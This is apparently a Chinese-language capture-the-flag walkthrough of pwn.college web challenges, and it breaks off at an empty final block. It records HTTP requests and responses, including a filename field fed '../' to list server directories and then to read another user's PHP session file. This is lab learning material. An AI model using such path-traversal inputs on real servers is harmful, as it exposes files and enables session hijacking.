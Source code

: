 ```html
        <tr>
            <td></td>
            <td><input type="submit" value="Sign the petition"
            ></td>
        </tr>
    </tbody>
</table>
</form>
```
2. 填寫form後submit
    - `GET /cgi-bin/petition.py?first=F&last=W&email=fishw%40asu.edu&comment=wah&id=`
3. 回傳包含一組字串`Your ID is 43b4ea99e7dd48b687d772288fad1d00`
4. 回到一開始頁面, 輸入id後submit
    - `GET /cgi-bin/petition.py?first=&last=&email=&comment=&id=43b4ea99e7dd48b687d772288fad1d00`
5. 回傳包含一組字串`Your comment was: pwn.college{..}`


# 4
1. 進網站, Response部分程式碼
```html
<form action="/cgi-bin/it.php" method="post">
    <p>Enter your name: <input type="text" name="username"></p>
    <p>Enter your password: <input type="password" name="password"></p>
    <p><input type="submit" value="Start"></p>
</form>
```
2. 點擊表單`Start`(`submit`)發送
    1. 頭: `POST /cgi-bin/it.php`
    2. 主體: `username=&password=`
3. Response
    1. 頭包含Set-Cookie: `Set-Cookie: PHPSESSID=80s78pl63c16hj3mb8c2v1g8c5; path=/`
    2. 主體包含input hidden:
    ```html
    <p>Welcome </p>
    <form action="/cgi-bin/it.php" method="post">
        <p>File: <input type="text" name="filename" /></p>
        <p>Data: <input type="text" name="data" /></p>
        <p><input type="submit" value="Submit"></p>
        <p><input type="hidden" name="nonce" value="635379058" /></p>
    </form>
    ```
4. 點擊表單`Submit`發送
    1. 頭: `POST /cgi-bin/it.php`, `Cookie: PHPSESSID=80s78pl63c16hj3mb8c2v1g8c5`
    2. 主體: `filename=&data=&nonce=635379058`
5. Response主體
```html
<form action="/cgi-bin/it.php" method="post">
    <p><input type="text" name="filename"></p>
    <p><input type="hidden" name="readmode" value="yes"></p>
    <p><input type="submit" value="Read"></p>
    <p><input type="hidden" name="nonce" value="635379058"></p>
</form>
```
6. 輸入`../`點擊`Read`發送
    1. 頭: `POST /cgi-bin/it.php`
    2. 主體:`filename=..%2&readmode=yes&nonce=635379058`
7. 得到Response主體`.config<br>public_html<br>session<br>storage<br>`
8. 返回上一頁, 重新整理, 會發送和步驟4相同請求, 得到步驟5Response主體
9. 輸入`../session`點擊`Read`發送, 得到Response主體`sess_91c7e1e10744d69fd8fe35ecfc<br>`
10. 重複步驟8步驟9, 輸入`../session/sess_91c7e1e10744d69fd8fe35ecfc`
11. 得到Response主體
```html
```
